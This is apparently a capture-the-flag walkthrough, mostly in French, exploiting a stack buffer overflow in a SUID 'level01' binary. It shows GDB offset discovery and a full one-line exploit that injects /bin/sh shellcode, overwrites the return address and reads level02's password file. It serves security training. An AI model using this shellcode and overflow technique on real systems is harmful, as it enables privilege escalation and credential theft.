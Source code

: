 # Walkthrough - level01

The program contains SUID permissions for the user level02, which will allow us to obtain their flag.

## Disassembly

- Allocation d'un buffer de 64 bytes sur la stack
- Un appel à la fonction `fgets` avec 256 bytes lu sur la stdin
- Un appel à la fonction `fgets` avec 100 bytes lu sur la stin.

## Exploit

L'object est de stocker un shellcode dans le buffer `a_user_name`, puis d'écraser l'EIP de la fonction `main` pour jump directement sur le shellcode.

Premierement, comme on peut le voir dans la fonction `verify_user_name`, il y a un `memcpy(a_user_name, "dat_wil", 7)` qui nous impose d'utiliser le nom d'utilisateur `dat_wil`.

Ensuite, il nous faut calculer l'offset à mettre dans le deuxième `fgets`.

[Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

Ce site genere une string que l'on peut mettre dans le deuxième `fgets` avec GDB afin de provoquer un segfault et de calculer l'offset pour overwrite l'EIP du `main`.

```bash
gdb ./level01
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

Si on rendre l'addresse du segfault (`0x37634136`)dans le site, on obtenir un offset de 80 bytes

Maintenant, il nous faut obtenir l'addresse de la variable `a_user_name` pour connaitre l'addresse du shellcode que l'on va injecter.

```bash
gdb ./level01
(gdb) info variables
0x0804a040  a_user_name
```

Il y a la chaine de caracteres `dat_wil` en premier dans `a_user_name` donc notre shellcode se trouvera à l'addresse `0x0804a040 + len("dat_wil") + 1 pour le \0 = 0x0804a048`


Faisons la commande complète, en ajoutant un peu d'instructions NOP "\x90" devant le shellcode pour pouvoir facilement retomber dessus.

```bash
(python -c 'print("dat_wil" + "\x90" * 20 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")'; python -c 'print("\x90" * 80 + "\x48\xa0\x04\x08")'; echo "cat /home/users/level02/.pass") | ./level01
```

Shellcode: https://shell-storm.org/shellcode/files/shellcode-752.html